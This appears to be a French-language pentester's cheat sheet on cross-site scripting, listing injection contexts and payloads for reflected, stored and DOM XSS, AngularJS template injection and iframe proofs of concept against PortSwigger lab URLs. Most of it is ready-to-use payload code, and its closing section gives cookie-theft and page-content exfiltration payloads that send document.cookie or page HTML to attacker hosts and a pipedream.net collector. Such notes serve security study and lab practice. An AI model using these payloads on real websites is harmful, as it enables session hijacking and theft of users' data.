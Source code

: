 # XSS

## Ressources 

* [SecList](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing)
* [PortSwigger](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)


## Basics 

## complément XSS

Trois cas d’usage où une faille XSS peut être identifiée :
Le paramètre est repris au milieu d’une balise HTML, il est alors nécessaire d’avoir les chevrons non encodés afin d’exploiter cette faille

```html
<script>alert(0)</script>
```

Le paramètre est repris au milieu d’un paramètre d’une balise HTML, il est alors nécessaire d’avoir les guillemets non encodés afin d’exploiter cette faille

```js
onready="alert(0)
```

Le paramètre est repris au sein d’une balise script, il est alors nécessaire d’avoir l’un de ces caractères selon le contexte : ', "  ou ;

```js
'; alert(0); //
```

# types

## Reflected + Stored

```html
<script>alert(0)</script>
<img src=1 onerror=alert(1)>
<a href="javascript:alert(document.domain)">Click Me</a>
```

parfois il faut jouer avec les "quotes":

```js
"onmouseover="alert(0)'
```

exécutera : 

```js
name=search value=""onmouseover="alert(0)">
```

Quand la saisie réapparait dans un href, on insert directement le code JS:

```js
javascript:alert(document.domain)
```

Si la saisie réapparait dans du code JS, on ferme la quote ' et utilise le signe moins - ou + pour concat:

```js
'+alert(document.cookie)+'
```

## DOM

```html
"><script>alert(document.domain)</script>
"><img src=1 onerror=alert(document.domain)>
```

### jQuery + manipulation url


```js
?returnUrl=javascript:alert(document.domain)
```

### AngularJS + ng-app attribute

```js
{{constructor.constructor('alert(1)')()}}
```

### in xhr

```js
\"-alert(1)}//
```

## POC depuis un iframe

```html
<iframe src="https://ace11f3f1fe0965980b4432a00d900b0.web-security-academy.net/?earch=%22%3E%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='1000px'>" onload=this.style.width='1000px'>
```

## custom ID (from malicious server)

```html
<script>
location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

## Retour d'expérience

### Success

* Lorsque des caractères sont filtrés: utiliser le fuzzer ZAP, le BURP intruder ou Ffuf pour tester les balises et les payload petit à petit jusqu'a avoir des réponses 200 avec chars non encodés
* regarder dans le débugger du navigateur: "inspect element" et onglet "source" pour contrôler l'échappent.

* Vol de cookie (DOM based) : 

```js
test';document.location="https://attacker.lan?c="+document.cookie;'
```

```html
<script>
fetch('https://attacker.machine', {
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```

* Vol du contenu la page web :

```html
<img src=x onerror="document.location=`//en5048oeg59ha.x.pipedream.net?c=${btoa(document.body.innerHTML)}`">
```

```html
<svg onload='window.location.href="//en5048oeg59ha.x.pipedream.net?content=".concat(document.getElementsByTagName("p")[0].innerHTML.split(" ")[39])'>
```


* marche aussi dans un fichier **.svg**

```xml
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
```

### Failed

* Le texte issu d'un `InnerHTML` ou d'autre fonction JS similaire n'est pas (toujours) interprété par le Navigateur. 